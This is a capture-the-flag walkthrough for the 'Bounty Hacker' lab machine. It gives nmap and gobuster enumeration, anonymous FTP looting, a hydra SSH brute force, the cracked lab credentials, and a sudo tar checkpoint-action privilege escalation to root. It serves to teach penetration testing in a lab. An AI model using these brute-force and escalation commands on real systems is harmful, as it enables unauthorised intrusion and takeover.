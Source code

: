 # Bounty Hacker

## Enumeration

```bash
export IP=10.10.22.0
nmap -A -v $IP -oN scans/nmap.log
```
![](images/image1.png)

### Enumerate web server with gobuster
```
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```
![](images/image4.png)


FTP port allows anonymous login, get the loot

```bash
mkdir loot
cd loot
ftp $IP
mget *
```
![](video/video1.gif)

Explore the text files obtained

![](images/image2.png) <br>
![](images/image3.png) <br>

Seems like **locks.txt** is a wordlist of passwords and the **task.txt** files suggest ***lin*** is some kind of admin. 

There is not much we can try to bruteforce here except ssh, use hydra

```bash
hydra -l lin -P '/home/user/THM/BountyHacker/loot/locks.txt' $IP ssh -V
```
![](video/video2.gif)

<details><summary>Credentials</summary>
>username: lin <br>
>password: RedDr4gonSynd1cat3 <br> 
</details>

Get in with SSH
```bash
ssh lin@$IP

```
>user.txt <br>

![](images/image5.png)

To get root use an enumaration tool like linpeas
Transfer linpeas to a writteable folder, give it execution rights and execute it

<details><summary>Linpeas method</summary>
<p>

```bash
scp ./linpeas.sh lin@$IP:/dev/shm
cd /dev/shm/
chmod +x linpeas.sh
./linpeas.sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
find / -name *root.txt 2>/dev/null
cat /root/root.txt
```
![](images/image7.png)
</p>
</details>

<details><summary>LOTL Method</summary>
<p>

```bash
ssh lin@$IP
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
find / -name *root.txt 2>/dev/null
cat /root/root.txt
```
![](images/image6.png) <br>
![](images/image7.png) <br>
</p>
</details>

